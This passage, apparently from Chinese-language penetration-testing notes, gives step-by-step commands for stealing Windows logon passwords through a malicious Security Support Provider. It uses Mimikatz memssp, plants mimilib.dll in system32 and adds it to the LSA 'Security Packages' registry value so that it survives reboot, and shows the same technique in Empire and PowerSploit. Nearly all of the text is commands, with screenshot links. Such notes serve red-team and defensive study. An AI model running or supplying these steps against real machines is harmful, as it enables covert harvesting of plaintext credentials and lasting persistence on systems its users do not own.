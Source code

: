 	需高权限
  #### Mimikatz
	重启失效
	>privilege::debug
	>misc::memssp
	锁屏
	>rundll32.exe user32.dll,LockWorkStation
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/544.png)

	登录的账号密码保存在
	C:\Windows\System32\mimilsa.log
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/545.png)

	重启有效
	将mimikatz中的mimilib.dll放入system32目录
	>reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages" 查看注册表
	>reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ  添加mimilib
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/546.png)

	有账号登录密码保存在C:\Windows\System32\kiwissp.log重启也有效
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/547.png)
  #### Empire
	复制mimilib.dll到system32文件夹中
	>shell copy mimilib.dll C:\Windows\System32\
	使用模块
	>usemodule persistence/misc/install_ssp*
	>set Path C:\Users\Administrator\mimilib.dll
  #### Powersploit
	>Import-Module .\PowerSploit.psm1
	>Install-SSP -Path .\mimilib.dll
